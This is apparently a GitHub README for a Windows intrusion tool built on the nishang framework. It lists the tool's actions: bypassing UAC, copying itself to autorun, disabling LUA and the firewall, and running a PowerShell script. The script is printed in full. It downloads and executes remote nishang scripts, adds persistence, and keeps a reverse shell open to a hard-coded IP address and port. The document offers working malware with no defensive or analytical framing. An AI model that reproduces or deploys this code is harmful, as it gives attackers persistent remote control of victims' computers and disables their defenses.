 # win_penetration

powered by [nishang](https://github.com/samratashok/nishang)

### behaviour
- extract bat file to tmp directory
- bypass UAC and run bat file to:
    - copy self to autorun directory
    - disable LUA
	- close network firewall
	- extract 1.ps1 to powershell root directory
	- run 1.ps1

### 1.ps1
```
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1')

IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Utility/Add-Persistence.ps1')
Add-Persistence -ScriptPath C:\Windows\System32\WindowsPowerShell\v1.0\1.ps1


While(1){
	Try {
		Invoke-PowerShellTcp -Reverse -IPAddress 192.168.10.99 -Port 8099
	}
	Catch {
		Write-Error $Error[0].ToString() + $Error[0].InvocationInfo.PositionMessage
	}
	Start-Sleep -Seconds 3
}
```